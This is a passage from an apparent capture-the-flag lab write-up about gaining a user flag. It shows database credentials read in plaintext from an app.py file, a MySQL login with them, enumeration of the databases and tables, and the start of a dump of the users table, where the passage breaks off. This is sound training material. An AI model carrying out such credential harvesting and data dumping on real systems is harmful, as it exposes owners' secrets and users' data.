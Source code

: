 
## User Flag

There is a `app.py` file. Read its content with `cat` and you will find DB credentials : 
```bash
# Database Configuration
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}
```

Connect to the database with **MySQL** : 
```bash
(remote) www-data@iclean:/opt/app$ mysql -u iclean -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 1188
Server version: 8.0.36-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

Enumerate DB and Tables : 
```bash
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| capiclean          |
| information_schema |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use capiclean;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_capiclean |
+---------------------+
| quote_requests      |
| services            |
| users               |
+---------------------+
3 rows in set (0.00 sec)

mysql> select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
```